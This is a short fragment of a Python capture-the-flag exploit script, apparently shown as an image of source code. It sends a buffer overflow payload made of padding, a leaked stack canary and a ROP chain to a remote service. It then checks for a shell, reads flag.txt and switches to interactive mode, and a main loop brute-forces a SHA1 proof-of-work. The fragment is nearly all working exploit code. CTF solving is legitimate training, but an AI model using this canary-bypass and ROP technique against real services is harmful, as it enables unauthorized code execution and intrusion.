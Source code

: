 ```python

    # Send the payload
    payload = pad1 + p64(int(canary, 16)) + pad2 + ROP
    send(s, payload)

    recv_until(s, "Enter time zones separated by whitespace or q to quit\n")
    send(s, "q")
    recv_until(s, "See you!\n")
    send(s, "echo HELLO", should_print = True)
    print recv_until(s, "HELLO\n"),
    print "$$$ SHELL $$$"
    send(s, "cat flag.txt", should_print = True)
    print "$$$ SHELL $$$"

    interact(s)
    return 0

# MAIN
print "*******************************************************************************************************"
print "*** SOLVING find an x such that 26 last bits of SHA1(x) are set, len(x)==29 and x[:24]==<something> ***"
print "*******************************************************************************************************"
while go() == -1:
    pass
```